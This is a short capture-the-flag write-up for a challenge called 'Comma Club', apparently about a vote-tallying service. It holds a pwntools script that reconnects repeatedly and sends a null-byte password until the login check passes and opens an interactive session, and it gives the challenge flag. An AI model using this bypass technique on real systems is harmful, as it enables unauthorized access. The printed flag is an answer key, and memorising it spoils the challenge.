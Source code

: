 # Comma Club

Solved by: @jeepee

## Question:
We need somone to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though.

## Solution:
```
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./challenge')
libc = exe.libc

host = "comma-club.chal.hackthe.vote"
port = 1337

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
#p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

for i in range(256):
  # p = exe.process()
  p = remote(host, port)
  sl("3")
  sla(b"password\n> ", b"\x00")
  resp = rl()
  print(resp.decode())
  if b"Incorrect" in resp:
    p.close()
  else:
    p.interactive()

# flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
```

Need to try few times and if you are lucky, will got the flag.

**Flag:** `flag{w3lc0me_2_TH3_2_c0mm4_c1ub}`
